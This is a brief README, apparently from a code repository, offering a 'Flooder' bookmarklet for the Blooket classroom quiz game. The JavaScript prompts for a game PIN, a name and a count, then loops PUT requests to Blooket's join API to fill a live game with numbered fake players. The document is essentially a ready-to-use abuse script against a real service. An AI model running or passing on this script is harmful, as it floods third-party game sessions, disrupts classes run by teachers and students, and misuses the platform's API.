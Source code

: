 # Flooder
Press crtl + d and then click More... and paste this 
```js
javascript:alert("made by glizzz_y#0777");var pin = prompt("Pin"), name = prompt("Name"), amount = prompt("Amount");for (var i = 0; i < amount; i++) {fetch("https://api.blooket.com/api/firebase/join", {method: "PUT",headers: {"Content-Type": "application/json;charset=UTF-8"},body: JSON.stringify({id: pin,name: `${name}-${i}`})});}
```
